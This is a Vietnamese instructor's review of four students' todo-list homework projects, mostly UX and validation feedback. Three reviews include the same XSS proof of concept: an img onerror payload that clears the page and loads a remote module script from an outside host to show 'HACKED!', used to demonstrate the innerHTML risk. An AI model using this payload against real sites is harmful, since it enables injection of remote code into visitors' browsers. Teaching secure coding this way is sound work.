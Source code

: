 # Review bài tập về nhà buổi 27 - Lớp Fullstack K5

## [Le Tung Duong](https://duong1801.github.io/f8-fullstack-k5/Day-27/)

- Khi người dùng mới truy cập nên focus vào luôn ô `input` thêm task để tăng trải nghiệm người dùng.

- Khi người dùng thực hiện thêm task thông qua việc click vào nút `Add Task` thì sau đó ô nhập task nên được focus như khi thêm task bằng các cách nhấn nút `Enter`.

- Chưa xử lý case người dùng nhập vào một task có nội dung quá dài.

- Do đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

```js
<img
  src=""
  onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
/>
```

- Sau khi người dùng bấm vào sửa task nên focus luôn vào ô `input` mà người dùng cần chỉnh sửa để tăng trải nghiệm người dùng.

- Chưa xử lý case chuyển đổi trạng thái của một task sang đã hoàn thành và ngược lại.

- Sau khi sửa task bấm vào `Enter` thì bị reload trang do mặc định của thẻ `form` khi `submit`.

- [x] Đánh giá chung: Bài làm tạm ổn, cần lưu ý một số case đặc biệt cần xử lý để hoàn thiện hơn.

## [Nguyen Tien Dat](https://tiendat211294.github.io/f8_offline_k5/buoi-27/)

- Khi người dùng mới truy cập nên focus vào luôn ô `input` thêm task để tăng trải nghiệm người dùng.

- Khi người dùng thực hiện thêm task thông qua việc click vào nút `Add Task` thì sau đó ô nhập task nên được focus như khi thêm task bằng các cách nhấn nút `Enter`.

- Chưa xử lý case nếu như người dùng chỉ nhập vào khoảng trắng thì sẽ không được cho thêm task hoặc sửa task, nên sử dụng phương thức `trim()` để loại bỏ khoảng trắng .

- Trường hợp khi người dùng nhập vào nội dung một task quá dài thì nên căn chỉnh phần thêm task ở chính giữa màn hình, không để nội dung của task quá sát với nút chỉnh sửa task, và khi nội dung đạt đến một dộ dài nhất định thì nên xuống dòng.

- Do đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

```js
<img
  src=""
  onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
/>
```

- Sau khi người dùng bấm vào sửa task nên focus luôn vào ô `input` mà người dùng cần chỉnh sửa để tăng trải nghiệm người dùng.

- Trường hợp nếu người dùng bấm vào sửa task rồi xoá hết nội dung của task và vẫn nhấn `Add  Task` hoặc `Enter` thì nên xử lý và không cho render ra task trống sẽ hợp lý hơn.

- Chưa xử lý case chuyển đổi trạng thái của một task sang đã hoàn thành và ngược lại.

- [x] Đánh giá chung: Bài làm tạm ổn, cần lưu ý một số case đặc biệt cần xử lý để hoàn thiện hơn.

## [Ngo Hoang Kim](https://kzau1612.github.io/FSK5/FSK5/day_27/)

- Khi người dùng mới truy cập nên focus vào luôn ô `input` thêm task để tăng trải nghiệm người dùng.

- Khi người dùng thực hiện thêm task thông qua việc click vào nút `Add Task` thì sau đó ô nhập task nên được focus như khi thêm task bằng các cách nhấn nút `Enter`.

- Trường hợp khi người dùng nhập vào nội dung một task quá dài, khi nội dung đạt đến một dộ dài nhất định thì nên xuống dòng.

- Khi thêm một task mới vào nên để task đó ở vị trí đầu tiên sẽ hợp lý hơn so với để ở cuối.

- Do đang sử dụng innerHTML, có thể xảy ra lỗi khi người dùng cố tình nhập một script vào.

```js
<img
  src=""
  onerror='b=document,a=b.body;a.innerHTML="";a.appendChild(c = b.createElement("script"),c.type="module",c.innerHTML=`import {HTML} from "https:\/\/unpkg.com/jsvjp";HTML("h1", "error", "HACKED!")`);a.appendChild(d=b.createElement("link"),d.rel="stylesheet",d.href="https:\/\/unpkg.com/jsvjp/style.css");'
/>
```

- Sau khi người dùng bấm vào sửa task nên focus luôn vào ô `input` mà người dùng cần chỉnh sửa để tăng trải nghiệm người dùng.

- Chưa xử lý case chuyển đổi trạng thái của một task sang đã hoàn thành và ngược lại.

- Khi thực hiện việc sửa nhiều task mà tất cả các task cần sửa chưa task nào đã hoàn thành việc chỉnh sửa thì chỉ cần một nhấn `Enter` hoặc bấm vào `Add Task` ở một task bất kì thì các task còn lại tự động hoàn thành việc chỉnh sửa. Hay khi trong lúc chỉnh có nhiều task chưa hoàn thành việc chỉnh sửa có một task mới được thêm vào hoặc có một task bị xóa đi thì toàn bộ các task sẽ tự động hoàn thành việc chỉnh sửa trừ task được chuyển qua trạng thái chỉnh sửa hoặc được focus cuối cùng trước khi thêm hoặc xóa một task và sau khi nhấn `Enter` hoặc bấm vào `Add Task` thì trang sẽ reload.

- [x] Đánh giá chung: Bài làm chưa tốt, cần lưu ý một số case đặc biệt cần xử lý để hoàn thiện hơn và cần dành nhiều thời gian hơn cho bài tập.

## [Nguyen Van Thang](https://nvthang391.github.io/btjs/bt27.html)

- Khi người dùng mới truy cập nên focus vào luôn ô `input` thêm task để tăng trải nghiệm người dùng.

- Khi người dùng thực hiện thêm task thông qua việc click vào nút `Add Task` thì sau đó ô nhập task nên được focus như khi thêm task bằng các cách nhấn nút `Enter`.

- Chưa xử lý case khi người dùng không nhập dữ liệu khi thêm task, nếu người dùng không nhập dữ liệu thì không cho thêm task.

- Chưa xử lý case nếu như người dùng chỉ nhập vào khoảng trắng thì sẽ không được cho thêm task hoặc sửa task, nên sử dụng phương thức `trim()` để loại bỏ khoảng trắng.

- Trường hợp khi người dùng nhập vào nội dung một task quá dài thì nên căn chỉnh phần thêm task ở chính giữa màn hình, không để nội dung của task quá sát với nút chỉnh sửa task.

- Chưa làm chức năng sửa nội dung task.

- Chưa xử lý case chuyển đổi trạng thái của một task sang đã hoàn thành và ngược lại.

- [x] Đánh giá chung: Bài làm chưa tốt, còn rất nhiều case đặc biệt cần xử lý để hoàn thiện và cần dành nhiều thời gian hơn cho bài tập, lưu ý cách quản lý folder và các file.
